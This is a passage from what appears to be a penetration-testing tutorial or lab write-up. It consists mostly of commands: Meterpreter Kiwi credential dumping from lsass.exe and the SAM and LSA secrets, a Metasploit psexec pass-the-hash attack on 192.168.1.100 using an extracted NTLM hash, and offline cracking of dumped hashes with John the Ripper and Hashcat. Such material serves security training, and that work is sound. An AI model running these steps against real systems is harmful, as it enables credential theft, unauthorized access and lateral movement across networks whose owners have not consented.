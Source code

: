 #### **Phase 2: Credential Harvesting with Kiwi**
```bash
# Prepare environment
migrate -N lsass.exe
load kiwi

# Extract all possible credentials
creds_all
lsa_dump_sam
lsa_dump_secrets

# Document findings
# Administrator: e3c61a68f1b89ee6c8ba9507378dc88d
# Student: bd4ca1fbe028f3c5066467a7f6a73b0b
```

#### **Phase 3: Lateral Movement Using Found Credentials**
```bash
# Use extracted credentials on other systems
use exploit/windows/smb/psexec
set RHOSTS 192.168.1.100
set SMBUser Administrator
set SMBPass e3c61a68f1b89ee6c8ba9507378dc88d:aad3b435b51404eeaad3b435b51404ee
exploit
# Pass-the-hash attack using Kiwi-extracted NTLM hash
```

**Integration Benefits:**
- **Credential Reuse** → Use harvested credentials across multiple systems
- **Privilege Escalation** → Find admin credentials for higher access
- **Network Expansion** → Discover credentials for other network resources

### **🔧 Integration with Password Cracking:**

#### **Offline Hash Cracking with John the Ripper:**
```bash
# After extracting hashes with Kiwi
# Create hash file
echo "Administrator:500:aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d:::" > hashes.txt
echo "student:1008:aad3b435b51404eeaad3b435b51404ee:bd4ca1fbe028f3c5066467a7f6a73b0b:::" >> hashes.txt

# Crack with John
john --format=NT hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
# Attempt to recover plaintext passwords

# Check cracked passwords
john --show --format=NT hashes.txt
```

#### **Using Hashcat for GPU Acceleration:**
```bash
# Format hashes for Hashcat
echo "e3c61a68f1b89ee6c8ba9507378dc88d" > admin_hash.txt
echo "bd4ca1fbe028f3c5066467a7f6a73b0b" > student_hash.txt

# Crack with Hashcat (NTLM = mode 1000)
hashcat -m 1000 admin_hash.txt /usr/share/wordlists/rockyou.txt
hashcat -m 1000 student_hash.txt /usr/share/wordlists/rockyou.txt
```
